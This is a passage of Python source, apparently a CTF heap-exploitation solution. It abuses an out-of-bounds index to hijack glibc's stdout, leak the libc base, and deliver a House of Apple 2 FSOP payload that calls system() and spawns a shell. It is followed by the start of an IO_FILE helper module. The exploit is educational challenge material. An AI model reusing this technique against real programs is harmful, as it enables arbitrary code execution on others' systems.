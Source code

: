 ```python
    """
    # context: stdout is at notes[-8]

    # step 0: create chunk at notes[24] so that sizes[-8] has valid size
    malloc(28,0x60)

    # step 1: hijack stdout to force libc leak
    edit(-8,(
        p64(0xfbad3887) + # add _IO_IS_APPENDING flag to stdout
        p64(0)*3 + # read_base, end, and ptr. can be anything
        p8(0) # overwrite LSB of write_base
        ))

    libc_leak = u64(p.recvn(16)[8:])
    libc.address = libc_leak - libc.sym['_IO_2_1_stdin_']
    info(f"{libc.address:#x}")

    # step 2: fsop to shell
    file = io_file.IO_FILE_plus_struct()
    payload = file.house_of_apple2_execmd_when_do_IO_operation(
        libc.sym['_IO_2_1_stdout_'],
        libc.sym['_IO_wfile_jumps'],
        libc.sym['system'])

    edit(-8,payload)

    p.interactive() # What is a heap exploitations? Someone help

if __name__ == "__main__":
    main()
```

io_file

```python
#!/usr/bin/env python3
# -*- encoding: utf-8 -*-
'''
@File    : io_file.py
@Time    : 2021/11/23 23:46:48
@Author  : Roderick Chan
@Email   : roderickchan@foxmail.com
@Desc    : Extension for FileStructure in pwntools and define useful IO_FILE related methods
'''


from pwn import FileStructure, context, error, flat, pack, unpack

__all__ = [
    "IO_FILE_plus_struct",
    "payload_replace"
]

class IO_FILE_plus_struct(FileStructure):

    def __init__(self, null=0):
        FileStructure.__init__(self, null)
    
    def __setattr__(self,item,value):
        if item in IO_FILE_plus_struct.__dict__ or item in FileStructure.__dict__ or item in self.vars_:
            object.__setattr__(self,item,value)
        else:
            error("Unknown variable %r" % item)
```